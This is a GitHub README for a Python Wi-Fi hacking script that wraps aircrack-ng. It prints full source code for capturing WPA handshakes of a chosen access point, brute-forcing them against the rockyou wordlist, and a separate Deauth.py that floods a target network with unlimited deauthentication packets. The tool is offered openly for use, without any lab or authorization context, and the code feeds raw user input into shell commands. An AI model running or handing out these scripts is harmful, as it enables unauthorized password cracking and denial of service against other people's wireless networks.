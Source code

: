 # HackingWifiScript
This script written in python3 was created for simplified brute force scanning using the aircrack-ng utility.<br><br>
__You can look at the repository where everything is described in detail. <a href="https://github.com/John-MetrosSoftware/HackingWifi">Link</a>.__
## Installation for python3
### Libraries
- <a href="https://pypi.org/project/prompt-toolkit/0.5/">prompt_toolkit</a>

```
git clone https://github.com/John-MetrosSoftware/HackingWifiScript
cd HackingWifiScript
pip3 install prompt_toolkit
python3 HackingWifiScript.py
```

## Installation aircrack-ng
```
sudo apt install aircrack-ng
```


## HackingWifiScript.py

### Imports
```python3
import os
import sys
from prompt_toolkit import prompt
```

### Scanning 
```python3
def scan_wifi(): 
    # Removing redundant processes
    os.system('sudo airmon-ng check kill')

    # Display network devices
    os.system('sudo airmon-ng')

    # Display the name of the network device (default: wlan0)
    device = prompt('Device [wlan0]: ')
    if device.replace(' ', '') == '':device = 'wlan0'

    # Switching network device to monitor mode
    os.system('sudo airmon-ng start {}'.format(device))

    # Start scanning wifi networks
    os.system('sudo airodump-ng {}'.format(device))

    # Handshake name
    cap = prompt('Handshake name: ')
    if cap.replace(' ', '') == '':
        print('Error! You did not enter the name of the handshake. ({}).'.format(cap))
        while True:
            cap = prompt('Handshake name: ')
            if cap.replace(' ', '') != '':
                break

    # Access point channel
    cannel = prompt('Cannel: ')
    if cannel.replace(' ', '') == '':
        print('Error! You have not entered a channel. ({}).'.format(cannel))
        while True:
            cannel = prompt('Cannel: ')
            if cannel.replace(' ', '') != '':
                break

    # Access point bssid
    bssid = prompt('Bssid: ')
    if bssid.replace(' ', '') == '':
        print('Error! You did not enter bssid. ({}).'.format(bssid))
        while True:
            bssid = prompt('Bssid: ')
            if bssid.replace(' ', '') != '':
                break

    # Running a specific wifi network scan
    os.system('sudo airodump-ng -w {} -c {} --bssid {} {}'.format(cap, cannel, bssid, device))
```

### Bruteforce
```python3
def brute_force():
    while True:
        # Handshake input
        cap = prompt('Handshake name: ')  
        if cap.replace(' ', '') == '':
            print('Error! You did not enter the name of the handshake. ({})'.format(cap))
            while True:
                cap = prompt('Handshake name: ')
                if cap.replace(' ', '') != '':
                    break

        # Getting a dictionary file
        if os.path.isfile(cap) == True:
            list_ = prompt('List [/usr/share/wordlists/rockyou.txt]: ')
            if list_.replace(' ', '') == '':
                list_ = '/usr/share/wordlists/rockyou.txt'
            break
        else:
            print('Error! Could not find handshake file. ({}).'.format(cap))

    # Bruteforce
    os.system('aircrack-ng {} -w {}'.format(cap, list_))
```

### Main
```python3
def main():
    os.system('clear || cls')
    print('1. Scanning\n2. Bruteforce\n3. Exit\n')
    select = prompt('Select menu item $ ')
    if select == '1':
        scan_wifi()
    elif select == '2':
        brute_force()
    elif select == '3':
        sys.exit()
    else:
        print('Invalid parameter: \'{}\''.format(select))
```

### Init
```python3
if __name__ == '__main__':
    while True:
        try:
            main()
        except Exception as error:
            print('Error: {}'.format(error))
```

## Deauth.py
### Imports
```python3
import os
import sys
```

### Main
```python3
def main():
    os.system('sudo aireplay-ng --deauth 0 -a {} {}'.format(str(sys.argv[1]), str(sys.argv[2])))
```

### Init
```python3
if __name__ == '__main__':
    try:
        sys.argv[1]
        sys.argv[2]
    except:
        print('Error! Not enough launch options.')
        sys.exit()
    main()
```

 

## Compilation
I usually compile my projects using the <a href="https://pypi.org/project/pyinstaller/">pyinstaller</a> compiler with the following parameters:
```
pyinstaller -F HackingWifiScript.py
pyinstaller -F Deauth.py
```

When making edits in the code or other changes, mark the author I want to know how the project is developing.
## PEP8
<a href="https://pypi.org/project/autopep8/">autopep8</a> automatically formats Python code to conform to the PEP 8 style guide. It uses the pycodestyle utility to determine what parts of the code needs to be formatted. autopep8 is capable of fixing most of the formatting issues that can be reported by pycodestyle.
```
autopep8 HackingWifiScript.py --recursive --in-place
autopep8 Deauth.py --recursive --in-place
```
## Developer 
Email    : wwwkali00312@gmail.com<br>
Telegram : https://t.me/metrossoftware
